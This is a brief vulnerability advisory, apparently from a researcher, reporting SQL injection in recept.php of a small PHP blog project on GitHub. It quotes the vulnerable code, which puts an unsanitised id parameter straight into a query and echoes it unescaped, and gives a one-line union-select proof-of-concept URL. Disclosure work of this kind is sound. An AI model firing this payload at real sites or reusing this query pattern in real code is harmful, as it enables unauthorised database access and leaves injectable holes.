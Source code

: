 #powered by sebao from 404team#


##Vulnerability link##
https://github.com/zorovavi/blog

##Vulnerability details##
in recept.php line 41 allows SQL Injection via the id parameter

	<?php 
		$id=$_GET["id"];
		require_once("db.php"); 
		$query=mysql_query("SELECT recept FROM recept WHERE id_z=$id", $link) or die(mysql_error());
		$zag1=mysql_fetch_row($query);
		$zag=$zag1[0];
	?>
	<p><img src="images/<?php echo "$id" ?>.jpg" alt = "рецепт"><?php echo "$zag"?></p>
  
POC:
http://target/recept.php?id=-1 union select user()
